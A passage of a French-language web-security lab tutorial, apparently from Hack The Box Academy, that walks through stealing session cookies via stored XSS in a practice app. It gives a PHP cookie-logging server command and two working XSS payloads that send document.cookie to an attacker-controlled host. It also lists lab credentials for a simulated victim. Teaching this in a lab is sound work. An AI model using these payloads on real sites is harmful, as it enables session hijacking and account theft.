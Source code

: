 Ce script attend que quelqu'un demande `?c=+document.cookie`, puis il analysera le cookie inclus.

Le script de journalisation des cookies peut être exécuté comme suit. `TUN Adapter IP`est l' `tun`adresse IP de l'interface de Pwnbox ou de votre propre VM.

```
dsgsec@htb[/htb]$ php -S <VPN/TUN Adapter IP>:8000
[Mon Mar  7 10:54:04 2022] PHP 7.4.21 Development Server (http://<VPN/TUN Adapter IP>:8000) started

```

Avant de simuler l'attaque, restaurez l'e-mail et le téléphone d'origine d'Ela Stienen (puisque nous n'avons trouvé aucun XSS dans ces champs et que nous voulons également que le profil ait l'air légitime). Maintenant, plaçons la charge utile ci-dessous dans le champ *Pays* . Il n'y a pas d'exigences spécifiques pour la charge utile ; nous venons d'en utiliser un moins courant et un peu plus avancé, car vous devrez peut-être faire de même à des fins d'évasion.

Charge utile:

Code : javascript

```
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>

```

Remarque : Si vous effectuez des tests dans le monde réel, essayez d'utiliser quelque chose comme [XSSHunter](https://xsshunter.com/) , [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) ou [Project Interactsh](https://app.interactsh.com/) . Un serveur PHP par défaut ou Netcat peut ne pas envoyer les données sous la forme correcte lorsque l'application Web cible utilise HTTPS.

Un exemple de charge utile HTTPS>HTTPS peut être trouvé ci-dessous :

Code : javascript

```
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>

```

Simuler la victime

Ouvrez un `New Private Window`, accédez `http://xss.htb.net`à l'application et connectez-vous à l'aide des informations d'identification ci-dessous :

-   Courriel : smallfrog576
-   Mot de passe : guitares

Ce compte jouera le rôle de la victime !

Maintenant, accédez à `http://xss.htb.net/profile?email=ela.stienen@example.com`. Il s'agit du profil public conçu par l'attaquant qui héberge notre charge utile de vol de cookies (en tirant parti de la vulnérabilité XSS stockée que nous avons précédemment identifiée).

Vous devriez maintenant voir ci-dessous dans votre machine attaquante.

![image](https://academy.hackthebox.com/storage/modules/153/52.png)
